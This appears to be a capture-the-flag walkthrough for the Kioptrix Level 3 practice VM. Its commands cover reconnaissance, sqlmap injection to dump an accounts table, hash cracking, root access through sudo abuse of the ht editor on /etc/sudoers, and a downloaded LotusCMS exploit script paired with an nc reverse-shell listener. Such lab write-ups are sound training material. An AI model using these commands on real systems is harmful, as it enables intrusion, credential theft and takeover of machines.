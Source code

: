 # Kioptrix Level 3
Insert `ethernet0.connectionType = "nat"` to .vmx, and change all `bridged` in the .vmx file of the VM before use VMware to open it.
![](https://i.imgur.com/NWG2WuI.png)
Host is `192.168.232.145`
![](https://i.imgur.com/58HjyQ9.png)
Victim is `192.168.232.148`
`nmap -sS -sV -A -p- -oN NmapKioptrixLv3.txt 192.168.232.148`
![](https://i.imgur.com/aK0CjHC.png)
We first start recon web service, `httponly flag not set` may cookie lost, maybe there's XSS exploit here.
![](https://i.imgur.com/q3cGznc.png)

![](https://i.imgur.com/7gUqYcY.png)

![](https://i.imgur.com/eGD0pWW.png)
Here can simply use [LotusCMS-Exploit](https://github.com/Hood3dRob1n/LotusCMS-Exploit) / [Lotus CMS Fraise 3.0 - Local File Inclusion / Remote Code Execution](https://www.exploit-db.com/exploits/15964) to get the shell in apache privilege, but not PoE there. 
We first `dirb` the directories of this website.
![](https://i.imgur.com/yUCc9Dd.png)
We will see there's database and gallery on this website.
![](https://i.imgur.com/3DekYkl.png)
I find that some herf cannot correct find the domain `http://kioptrix3.com/`, so I edit `/etc/hosts` to map VM IP to `kioptrix3.com`
`192.168.232.148   kioptrix3.com `
Then we can get website work properly.
![](https://i.imgur.com/7Dc0ujg.png)
Enter `Ligoat press room` you will find a sort dropdown.
![](https://i.imgur.com/s5oB7Tn.png)
Then you might find that URL change.
![](https://i.imgur.com/G6lWPnL.png)
Now we can use LotusRCE shell to find the Account/Password in the DataBase or just use sqlmap to get them remotely.
`sqlmap.py -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=filename#photos" --dbms=MySQL`
![](https://i.imgur.com/u3F19bs.png)

`sqlmap.py -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=filename#photos" --dbms=MySQL --dbs`
![](https://i.imgur.com/6bOKIQC.png)

`sqlmap.py -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=filename#photos" --dbms=MySQL -D gallery --tables`
![](https://i.imgur.com/uDJrhcn.png)

`sqlmap.py -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=filename#photos" --dbms=MySQL -D gallery -T dev_accounts --dump`
![](https://i.imgur.com/ksXNKjI.png)

Crack the hash. I use onlne `md5hashing.net`
![](https://i.imgur.com/WdCxHnL.png)
![](https://i.imgur.com/KtHzEzp.png)

Then try to SSH these account with these AC/PW.
![](https://i.imgur.com/JVCIbRZ.png)
`dreg` is empty and restricted.
![](https://i.imgur.com/s6Vu7r0.png)
There are something under `loneferret` folder. The policy said we can only use `ht` in `root`.
![](https://i.imgur.com/ExuZjet.png)
`sudo -l` tell us that we can not use `su` but `ht`
![](https://i.imgur.com/OoHpTbL.png)
However, `ht` is a file editor, we can use it to edit the `/etc/sudoers` to get `root` bash shell.
![](https://i.imgur.com/wkSC6At.png)
Fail with default environment variable TERM value `xterm-256color`, kioptrix3 is a red hat Linux, execute `export TERM=xterm` before the `sudo ht` command.
References:
* https://stackoverflow.com/questions/6804208/nano-error-error-opening-terminal-xterm-256color
* http://www.cloudfarm.it/fix-error-opening-terminal-xterm-256color-unknown-terminal-type/

![](https://i.imgur.com/sct7beX.png)
`sudo ht -t /etc/sudoers`
Or follow the [Document](http://hte.sourceforge.net/readme.html), use `F3` to open the `/etc/sudoers`, add `/bin/bash`
![](https://i.imgur.com/pmW7NVC.png)
`F2` save it, `F10` quit it.
![](https://i.imgur.com/WKvjL9N.png)
Then you might become `root`, enter to `/root` and find the `Congrats.txt`.
![](https://i.imgur.com/TbTWu4X.png)
Remember to reset the `/etc/hosts` if you need it.

## Use RCE to get the AC/PW in database
```bash
nc -lvp 8888
```
```bash
wget https://raw.githubusercontent.com/Hood3dRob1n/LotusCMS-Exploit/master/lotusRCE.sh
chmod +x lotusRCE.sh
./lotusRCE 192.168.232.148
```
Setting reverse shell target and listener port/type
![](https://i.imgur.com/WmwIQJE.png)
`python -c "import pty; pty.spawn('/bin/bash')"`
![](https://i.imgur.com/lVEVQeg.png)
We already known that gallery connect to a sql db, let find some AC/PW the website used to login.
`cd gallery`
![](https://i.imgur.com/vrWKwqH.png)
`gprofile.php` & `gconfig.php` are suspicious, take a look, if not, maybe we should trace code to find the website connect section.
![](https://i.imgur.com/rRHmiqT.png)
Nope.
![](https://i.imgur.com/VLcvMtC.png)
Ok, Here we got. Let's enter to the DB.
`mysql -h localhost -u root -p`
![](https://i.imgur.com/L0l9SUa.png)
`show databases;`
![](https://i.imgur.com/38Fe2nM.png)
```
use gallery;
show tables;
```
![](https://i.imgur.com/fx3Iess.png)
`select * from dev_accounts;`
![](https://i.imgur.com/pixMBFO.png)
